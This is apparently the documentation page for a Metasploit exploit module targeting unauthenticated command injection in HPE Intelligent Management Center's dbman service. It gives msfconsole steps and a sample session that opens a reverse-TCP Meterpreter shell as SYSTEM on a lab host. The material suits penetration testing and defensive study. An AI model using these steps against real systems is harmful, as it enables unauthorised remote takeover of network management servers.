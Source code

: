 ## Description

  This module exploits a remote command execution vulnerability in Hewlett Packard Enterprise Intelligent Management Center before version 7.3 E0504P04.

  The dbman service allows unauthenticated remote users to restore a user-specified database (OpCode 10007), however the database connection username is not sanitized resulting in command injection, allowing execution of arbitrary operating system commands as SYSTEM. This service listens on TCP port 2810 by default.


## Vulnerable Application

  [HPE Intelligent Management Center Enterprise Software Platform](https://www.hpe.com/au/en/product-catalog/networking/intelligent-management-software/pip.hp-intelligent-management-center-enterprise-software-platform.4176520.html) is a comprehensive wired and wireless network management tool.

  This module has been tested successfully on:

  * iMC PLAT v7.2 (E0403) on Windows 7 SP1 (EN).

  Installer:

  * [iMC PLAT v7.2 (E0403) Standard](https://h10145.www1.hpe.com/Downloads/DownloadSoftware.aspx?SoftwareReleaseUId=16759&ProductNumber=JG747AAE&lang=en&cc=us&prodSeriesId=4176535&SaidNumber=)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/windows/misc/hp_imc_dbman_restoredbase_unauth_rce`
  3. Do: `set RHOST <IP>`
  4. Do: `run`
  5. You should get a session


## Scenarios

  ```
  msf > use exploit/windows/misc/hp_imc_dbman_restoredbase_unauth_rce 
  msf exploit(windows/misc/hp_imc_dbman_restoredbase_unauth_rce) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(windows/misc/hp_imc_dbman_restoredbase_unauth_rce) > set verbose true
  verbose => true
  msf exploit(windows/misc/hp_imc_dbman_restoredbase_unauth_rce) > check
  [*] 172.16.191.166:2810 The target service is running, but could not be validated.
  msf exploit(windows/misc/hp_imc_dbman_restoredbase_unauth_rce) > run

  [*] Started reverse TCP handler on 172.16.191.238:4444 
  [*] 172.16.191.166:2810 - Powershell command length: 6123
  [*] 172.16.191.166:2810 - Sending payload (6123 bytes)...
  [*] Sending stage (179779 bytes) to 172.16.191.166
  [*] Meterpreter session 1 opened (172.16.191.238:4444 -> 172.16.191.166:49176) at 2018-01-05 05:30:48 -0500

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  smeterpreter > sysinfo 
  Computer        : WIN-SGBSD5TQUTQ
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 1
  Meterpreter     : x86/windows
  ```

